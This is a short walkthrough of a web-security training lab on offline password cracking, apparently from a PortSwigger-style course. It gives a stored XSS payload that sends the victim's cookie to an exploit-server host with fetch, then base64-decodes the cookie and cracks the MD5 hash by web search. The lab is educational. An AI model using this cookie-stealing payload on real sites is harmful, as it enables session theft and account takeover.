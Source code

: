 Title: Offline password cracking
Level: PRACTITIONER
Desc:  This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.

    Your credentials: wiener:peter
    Victim's username: carlos

# Walkthrough:
We have XSS in comment field, basic payload works.

My code to attack victim: 
`<script>fetch("https://exploit-0a93003704fadc6f8113dd9401cf00e6.exploit-server.net/log?cookie=" + document.cookie);</script>`

<img width="1859" height="159" alt="image" src="https://github.com/user-attachments/assets/145c9263-d776-40c5-9ac4-ac16ff5641bc" />

cookie to break: Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz

base64 decode: carlos:26323c16d5f4dabff3bb136f2460a943

breaking the md5 hash:

26323c16d5f4dabff3bb136f2460a943

After pasting this md5 into google search we get password.
onceuponatime
